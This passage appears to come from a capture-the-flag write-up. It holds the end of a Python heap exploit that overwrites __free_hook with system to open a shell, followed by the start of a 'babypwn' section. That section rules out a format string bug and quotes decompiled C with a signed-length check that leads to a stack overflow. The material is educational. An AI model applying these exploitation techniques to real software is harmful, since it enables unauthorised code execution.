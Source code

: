 ```python  
add("4", 0x68)

#now bins are clear

add("5", 0x68)  
add("/bin/sh\x00", 0x68) #6  
add("/bin/sh\x00", 0x38)  
add("/bin/sh\x00", 0x68)  
add("/bin/sh\x00", 0x68)  
add("/bin/sh\x00", 0x68)  
add("/bin/sh\x00", 0x68)  
add("/bin/sh\x00", 0x68)

remove(5)  
remove(5)  
remove(7) #prevent 0x40 from being used up

add(p64(libc_addr + e.symbols["__free_hook"]), 0x68)

add("consume", 0x68)

gots = ["system"]

fake_got = ""  
for g in gots:  
	fake_got += p64(libc_addr + e.symbols[g])  
add(fake_got, 0x68)

sh.sendline("2")

sh.recvuntil("index: ")  
sh.sendline(str(6))  
sh.interactive()  
```

## babypwn

This challenge *seems* to be a format once string vulnerability, but there is
nothing exploitable. The only address we have without leak is the program
address `0x400000`, but there is nothing writable(neither `got table` nor
`_fini_array`). The only possible write are `stdin` and `stdout`, but they
will not be used before the program exits so it is useless to hijack their
virtual tables.

Then I found another exploitable vulnerability

```c  
if ( (char)uint8 > 20 )  
{  
 perror("Coins that many are not supported :/\r\n");  
 exit(1);  
}  
for ( i = 0; i < uint8; ++i )  
{  
 v6 = &v10[4 * i];  
 _isoc99_scanf((__int64)"%d", (__int64)v6);  
}  
```
